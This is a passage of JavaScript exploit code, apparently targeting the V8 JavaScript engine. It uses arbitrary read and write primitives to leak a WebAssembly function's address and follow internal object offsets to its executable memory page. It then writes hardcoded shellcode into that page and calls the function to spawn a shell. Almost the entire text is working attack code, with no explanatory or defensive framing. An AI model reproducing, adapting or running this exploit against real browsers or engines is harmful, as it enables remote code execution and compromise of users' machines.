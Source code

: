 ```javascript
    buffer_view.setUint32(0, data, true);
}

//get the fucking WasmFuck_addr
var leak_array = {a : 0x666, b : 0x666, WasmFunc};
var WasmFunc_addr = -1;
for(var i = 0; i < res.length - 2; i++)
{
    console.log(i);
    if((F64ToU64(res[i]) == 0x66600000000n) && (F64ToU64(res[i + 1]) == 0x66600000000n)){
        var tmp = F64ToU32(res[i + 2]);
        tmp[0] = tmp[0] - 1;
        WasmFunc_addr = tmp;
        break;
    }
}

if(WasmFunc_addr == -1)
    console.log("Can't find the WasmFunc_addr.")
else
    success("WasmFunc_addr", WasmFunc_addr);

//shared_info offset = 0x18
// WasnExportedFunctionData offset = 0x8
// instance offset = 0x10
// RWX offset = 0x1d 

var shared_info_addr = ArbitaryRead(WasmFunc_addr, 0x18);
shared_info_addr[0] = shared_info_addr[0] - 1;
success("shared_info_addr", shared_info_addr);

var WasmExportedFunctionData_addr = ArbitaryRead(shared_info_addr, 0x8);
WasmExportedFunctionData_addr[0] = WasmExportedFunctionData_addr[0] - 1;
success("WasmExportedFunctionData_addr", WasmExportedFunctionData_addr);

var instance_addr = ArbitaryRead(WasmExportedFunctionData_addr, 0x10);
instance_addr[0] = instance_addr[0] - 1;
success("instace_addr", instance_addr);

var RWX_addr = ArbitaryRead(instance_addr, 0x1d * 8);
success("RWX_adde", RWX_addr);

var Code = new Uint32Array([0x622fb848, 0x732f6e69, 0x50990068, 0x66525f54, 0x54632d68, 0x05e8525e, 0x62000000, 0x00687361, 
    0x5e545756, 0x0f583b6a, 0x00000005]);
for(var i = 0; i < Code.length; i++)
{
    ArbitaryWrite32(RWX_addr, Code[i]);
    RWX_addr[0] = RWX_addr[0] + 4;
}
//get shell
WasmFunc();

```

